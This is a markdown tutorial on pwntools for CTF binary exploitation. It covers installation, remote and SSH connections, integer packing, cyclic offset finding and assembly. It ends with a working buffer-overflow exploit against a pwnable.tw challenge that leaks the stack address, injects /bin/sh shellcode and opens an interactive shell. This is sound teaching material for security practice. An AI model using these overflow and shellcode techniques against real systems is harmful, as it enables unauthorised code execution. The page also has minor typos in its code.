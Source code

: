 # Binary Exploitation

## [Pwntools](https://github.com/Gallopsled/pwntools)
A grab-bag of tools to make writing exploits for CTFs easy!

### Install
```
apt-get update
apt-get install python2.7 python-pip python-dev git libssl-dev libffi-dev build-essential
pip install --upgrade pip
pip install --upgrade pwntools
```

### Usage
Include in file:
```python
from pwn import *
``` 

#### [Making Connections](http://docs.pwntools.com/en/stable/tubes.html#module-pwnlib.tubes)
How to connect to sockets and over ssh:
##### [Netcat](http://docs.pwntools.com/en/stable/tubes/sockets.html#module-pwnlib.tubes.remote)
```python
connection = remote(host, port)

# Example:
r = remote('pwn.hsctf.com', 1234)
# Same as 'nc pwn.hsctf.com 1234'
```

##### [SSH](http://docs.pwntools.com/en/stable/tubes/ssh.html#module-pwnlib.tubes.ssh)
```python
session = ssh(username, host, password=passwd)

# Example:
s = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0')
# Same as 'ssh bandit@bandit.labs.overthewire.org'
```


#### [Interacting with Processes](http://docs.pwntools.com/en/stable/tubes/processes.html#module-pwnlib.tubes.process)
Now that we've connected to the host, how do we interact with it?
#### Interacting with a remote
```python
r = remote('12.123.45.324', 666) # Connect
r.recvline()			 # Receive next line from remote
r.send("test\r\n")               # Send to remote
r.interactive()                  # Manually interact with remote
...
r.close()			 # Close connection
```

#### Interacting with a process
```python
# Connect over ssh to host
s = ssh('bandit0', 'bandit.labs.overthewire.org', password='bandit0')

sh = s.process('/bin/sh')	  # Run shell
# or s.run('sh')

sh.sendline('echo Hello, world!') # Send to shell, appends newline
sh.recvline(timeout=5)	          # Receive line to shell, returns after nothing received for 5 seconds
sh.interactive()		  # Manually interact with shell
...
s.close()                         # Close ssh connection
```


#### [Setting Target Architecture and OS](http://docs.pwntools.com/en/stable/intro.html#setting-the-target-architecture-and-os)
You can set the global context so that other functions (such as p32 and asm) default to the correct endianess and architecture:
```python
context.arch      = 'i386'
context.os        = 'linux'
context.endian    = 'little'
context.word_size = 32
contex.log_level = 'debug' # More verbose output, very useful

# or

context(arch='arm', os='linux', endian='big', word_size=32, log_level='debug')
```


#### [Packing Integers](http://docs.pwntools.com/en/stable/util/packing.html#module-pwnlib.util.packing)
How to convert between integers as Python sees them and their representation as a sequence of bytes:
```python
# What you will use most often
win = p32(0xdeadbeef) # Packs 32-bit int, endianness and sign based on *context*
# Same as '\xef\xbe\xad\xde' on x86 or arm (little endian)

# Can use other bit sizes and specify endianess and sign
p8(0x54, endian='little', sign='signed'
p16(0x541A, endian='big', sign='signed')
p64(0x541A2B4E28BD541C, endian='big', sign='unsigned')

# Example:
buf = 'A'*20
win = p32(0xdeadbeef) 
payload = buf + win

r.sendline(payload)
r.interactive()
```


#### [Determining Offsets](http://docs.pwntools.com/en/stable/util/cyclic.html)
Generate a cyclic pattern of characters big enough to overwrite a variable or return address:
```python
cyclic(16)
aaaabaaacaaadaaa
```

Run the binary with the pattern generated:
```shell
./binary aaaabaaacaaadaaa
Jumping to 0x6161616c
```

Find the offset:
```python
cyclic_find(0x6161616c)
44 # Offset
```


#### [Assembly and Disassembly](http://docs.pwntools.com/en/stable/asm.html#module-pwnlib.asm)
Converting from assembly instructions to byte representations and back:
```python
asm('mov eax, 0').encodde('hex') # 'b800000000'

disasm('6a0258cd80ebf9'.decode('hex'))
#   0:   6a 02                   push   0x2
#   2:   58                      pop    eax
#   3:   cd 80                   int    0x80
#   5:   eb f9                   jmp    0x0

# Example: 
shellcode = asm('\n'.join([   # Shell code that will run /bin/sh when executed
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80']))

payload = "A"*20  + p32(esp + 20) + shellcode 
r.send(payload)
r.interactive()
```

##### [Shellcode generation - You don't need to write your own shellcode!](http://docs.pwntools.com/en/stable/shellcraft.html#module-pwnlib.shellcraft)


### Example Program
```python
from pwn import *

def leak_esp(r):
	address_1 = p32(0x08048087)             # mov ecx, esp; mov dl, 0x14; mov bl, 1; mov al, 4; int 0x80; 
	payload = 'A'*20 + address_1
	print r.recvuntil('CTF:')
	r.send(payload)
	esp = u32(r.recv()[:4])
	print "Address of ESP: ", hex(esp)
	return esp

shellcode = asm('\n'.join([
    'push %d' % u32('/sh\0'),
    'push %d' % u32('/bin'),
    'xor edx, edx',
    'xor ecx, ecx',
    'mov ebx, esp',
    'mov eax, 0xb',
    'int 0x80',
]))

if __name__ == "__main__":
    context.arch = 'i386'
    r = remote('chall.pwnable.tw', 10000)
    #gdb.attach(r)
    esp = leak_esp(r)
    payload = "A"*20  + p32(esp + 20) + shellcode 
    r.send(payload)
    r.interactive()
```

### [Other Example Programs](https://github.com/Gallopsled/pwntools-write-ups)
